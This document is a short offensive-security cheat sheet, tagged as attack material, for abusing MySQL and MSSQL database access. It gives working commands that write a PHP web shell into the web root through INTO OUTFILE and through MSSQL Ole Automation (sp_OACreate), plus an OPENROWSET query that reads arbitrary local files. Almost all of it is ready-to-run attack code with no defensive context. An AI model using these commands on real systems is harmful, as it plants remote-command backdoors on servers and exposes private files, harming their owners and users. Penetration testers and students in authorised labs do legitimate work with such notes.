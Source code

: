 ```
go
```

## attacking common services - mysql - write local files (verify permissions)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
show variables like "secure_file_priv"; # if empty then we can read/write using MySQL
```

## attacking common services - mysql - write local files
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

## attacking common services - mssql - write local files - Step 1: Enable Ole Automation Procedures (with privileges)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
sp_configure 'show advanced options', 1
go
RECONFIGURE
go
sp_configure 'Ole Automation Procedures', 1
go
RECONFIGURE
go
```

## attacking common services - mssql - write local files - Step 2: write a file (with privileges)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
go
```

## attacking common services - mssql - read local files (by default mssql allow file reads anywhere where the account has read access)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
SELECT * FROM OPENROWSET(BULK N'<C:\pathToFile>', SINGLE_CLOB) AS Contents
go
```
